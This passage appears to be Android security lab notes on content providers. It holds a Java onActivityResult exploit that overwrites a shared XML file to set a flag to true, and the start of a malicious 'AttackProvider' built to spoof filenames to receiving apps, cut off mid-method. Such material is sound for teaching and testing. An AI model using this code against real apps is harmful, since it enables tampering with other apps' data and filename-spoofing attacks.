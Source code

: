 ```java
    protected void onActivityResult(int requestCode, int resultCode, @Nullable Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        if (requestCode != 42 || data == null || data.getData() == null) return;

        Uri uri = data.getData();

        // 1) Read the whole file
        StringBuilder sb = new StringBuilder();
        try (InputStream in = getContentResolver().openInputStream(uri);
             BufferedReader br = new BufferedReader(new InputStreamReader(in))) {
            String line;
            while ((line = br.readLine()) != null) sb.append(line).append('\n');
        } catch (IOException e) {
            Log.e("Hextree", "Read failed", e);
            return;
        }

        // 2) Toggle the boolean
        String xml = sb.toString().replace("value=\"false\"", "value=\"true\"");

        // 3) Write it back — use "rwt" to truncate/replace
        try (OutputStream out = getContentResolver().openOutputStream(uri, "rwt")) {
            if (out == null) throw new IOException("openOutputStream returned null");
            out.write(xml.getBytes(StandardCharsets.UTF_8));
            out.flush();
            Toast.makeText(this, "Flag updated", Toast.LENGTH_SHORT).show();
        } catch (IOException e) {
            Log.e("Hextree", "Write failed", e);
        }
    }
```

### FileProvider Receivers
- Because content providers are used a lot to exchange data between apps, the threat surface is not just on the provider implementation side. Also apps that receive content provider Uris can be vulnerable.
- The following code snippet implements a malicious File Provider that can spoof the filename.
```java
import android.content.ContentProvider;
import android.content.ContentValues;
import android.database.Cursor;
import android.database.MatrixCursor;
import android.net.Uri;
import android.os.ParcelFileDescriptor;
import android.provider.OpenableColumns;
import android.util.Log;
import androidx.annotation.NonNull;
import java.io.FileNotFoundException;
import java.io.IOException;

public class AttackProvider extends ContentProvider {
    public AttackProvider() {
    }

    @Override
    public Cursor query(Uri uri, String[] projection, String selection,
                        String[] selectionArgs, String sortOrder) {
        Log.i("AttackProvider", "query("+uri.toString()+")");

        MatrixCursor cursor = new MatrixCursor(new String[]{
                OpenableColumns.DISPLAY_NAME, OpenableColumns.SIZE
        });

```